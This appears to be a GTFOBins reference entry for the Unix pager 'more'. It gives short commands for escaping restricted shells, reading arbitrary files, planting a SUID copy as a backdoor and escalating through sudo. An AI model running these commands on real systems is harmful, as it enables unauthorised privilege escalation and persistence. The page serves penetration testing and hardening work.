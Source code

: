 # GTFOBin: more

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TERM= more /etc/profile
!/bin/sh
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
more file_to_read
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which more) .

./more file_to_read
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TERM= sudo more /etc/profile
!/bin/sh
```